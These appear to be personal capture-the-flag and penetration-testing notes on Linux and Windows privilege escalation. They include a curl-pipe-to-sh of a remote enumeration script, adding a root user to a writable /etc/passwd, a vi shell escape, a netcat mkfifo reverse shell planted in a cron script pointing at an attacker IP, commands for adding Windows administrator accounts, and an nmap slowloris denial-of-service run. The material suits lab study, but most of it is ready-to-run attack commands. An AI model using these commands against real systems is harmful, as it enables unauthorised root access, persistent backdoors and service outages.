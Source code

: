 
# Enumerate

On Linux ideally we would be looking for opportunities to gain access to a user account. 
SSH keys stored at `/home/<user>/.ssh` 

In CTFs it's also not infrequent to find credentials lying around somewhere on the box. 

Some exploits will also allow you to add your own account. In particular something like [Dirty C0w](https://dirtycow.ninja/) or a writeable /etc/shadow or /etc/passwd would quickly give you SSH access to the machine, assuming SSH is open.

shows current users permissions
`sudo -l

first ssh into ip THEN
```
curl https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh | sh
```

## LinEnum

[LinEnum GitHub](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh)

There are two ways to get LinEnum on the target machine. 

1. Go to the directory that you have your local copy of LinEnum stored in, and start a Python web server using **"python3 -m http.server 8000"** . Then using **"wget"** on the target machine, and your local IP, you can grab the file from your local machine. Then make the file executable using the command **"chmod +x FILENAME.sh"**.
2. if you have sufficient permissions, copy the raw LinEnum code from your local machine and paste it into a new file on the target, using Vi or Nano. Once you've done this, you can save the file with the **".sh"** extension. Then make the file executable using the command **"chmod +x FILENAME.sh"**.

Start a server from the directory that contains LinEnum.sh
```bash
(raz㉿kali)-[~/LinEnum]
└─$ python -m http.server 9000
```
1. from the target use `wget http://10.4.3.201:9000/LinEnum.sh
3. `chmod +x LinEnum.sh
4. Run `./LinEnum.sh` to begin scan

##RootHelper


The RootHelper/Linux Smart Enumeration module is a LinEnum fork with a heavy focus on privilege escalation.
https://github.com/NullArray/RootHelper

---
# Priv Esc

## Exploiting SUID Files

SUID files: Look like
`-rwsr-xr-x
Notice the ***'S'***

ctrl+F to find this part of your LinEnum scan
```
[-] SUID files:
-rwsr-xr-x 1 root root 30800 Aug 11 2016 /bin/fusermount
-rwsr-xr-x 1 root root 8392 Jun 4 2019 /home/user5/script
-rwsr-xr-x 1 root root 8392 Jun 4 2019 /home/user3/shell
```
OR
Use this command to search the system for SUID/GUID files:
`find / -perm -u=s -type f 2>/dev/null"** to search the file system for SUID/GUID files



## Exploiting a writable /etc/passwd

example entry of a user
`test:x:0:0:root:/root:/bin/bash

1. create a compliant password hash to add to our new user
`openssl passwd -1 -salt [salt] [password]
2. create a user entry to add onto /etc/passwd
```
nano /etc/passwd
new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:/root:/bin/bash"
```
3. switch to your new user and enter passwd
`su new`
4. you should have root
`sudo -i


## Escaping Vi Editor

use `sudo -l` to discover if that user can run any binaries with root privileges

[GTFOBins](https://gtfobins.github.io/) is a curated list of Unix binaries that can be exploited by an attacker to bypass local security restrictions

1. open vi as root, by typing `sudo vi`
2. type `:!sh` to open a shell!



## Exploiting Crontab

view scheduled cron jobs
`cat /etc/crontab

crontabs have the following format:
`<ID> <minute> <hour> <day of month> <month> <day of week> <user> <command>

1. create a reverse shell payload for the cronjob to run 
`msfvenom -p cmd/unix/reverse_netcat lhost=LOCALIP lport=8888 R
2. replace the binary with the payload
`echo "mkfifo /tmp/ujlow; nc 10.4.3.201 8888 0</tmp/ujlow | /bin/sh >/tmp/ujlow 2>&1; rm /tmp/ujlow" > autoscript.sh`
3. start listener and wait for shell to land
`nc -lvnp 8888`

---
# Handy Nix Files

contains ssh configurations such as: PasswordAurhentication
	`etc/ssh/ssshd_config
A plain text file It contains a list of the system’s accounts, giving for each account some useful information like user ID, group ID, home directory, shell, and more.
	`/etc/passwd` 

---
## Windows 

VNC servers, for example, frequently leave passwords in the registry stored in plaintext. 

Some versions of the FileZilla FTP server also leave credentials in an XML file at `C:\Program Files\FileZilla Server\FileZilla Server.xml`  or `C:\xampp\FileZilla Server\FileZilla Server.xml`  
- These can be MD5 hashes or in plaintext, depending on the version.

Ideally on Windows you would obtain a shell running as the SYSTEM user, or an administrator account running with high privileges. In such a situation it's possible to simply add your own account (in the administrators group) to the machine, then log in over RDP, telnet, winexe, psexec, WinRM or any number of other methods, dependent on the services running on the box.

The syntax for this is as follows:

`net user <username> <password> /add`

`net localgroup administrators <username> /add`

---

# Now you're Here..

launche DOS attack using nmap scripts
`nmap 192.168.1.105 -max-parallelism 800 -Pn --script http-slowloris --script-args http-slowloris.runforever=true

